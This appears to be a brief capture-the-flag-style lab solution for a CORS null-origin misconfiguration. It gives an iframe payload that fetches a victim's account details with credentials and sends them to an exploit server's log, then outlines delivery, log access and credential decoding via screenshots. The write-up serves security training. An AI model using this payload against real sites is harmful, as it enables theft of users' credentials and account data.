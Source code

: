 1. The following script should be delivered to the victim:   

    ```
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','LAB.net/accountDetails',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='Exploit-Server.net/log?key='+encodeURIComponent(this.responseText);
        };
    </script>"></iframe>
    ```
  

2. Delivering the exploit:   

    ![grafik](https://user-images.githubusercontent.com/62068604/235935612-59f247fd-1ce0-4d5d-86f9-80dfe203a22e.png)
3. Accessing the log:   

    ![grafik](https://user-images.githubusercontent.com/62068604/235936163-171a6fb4-25a6-458e-bf17-67160d695f5b.png)


4. Decoding the credentials:   

    ![grafik](https://user-images.githubusercontent.com/62068604/235935435-7b2b2330-ad1b-4753-b8c0-aa4b8e6c0a2b.png)

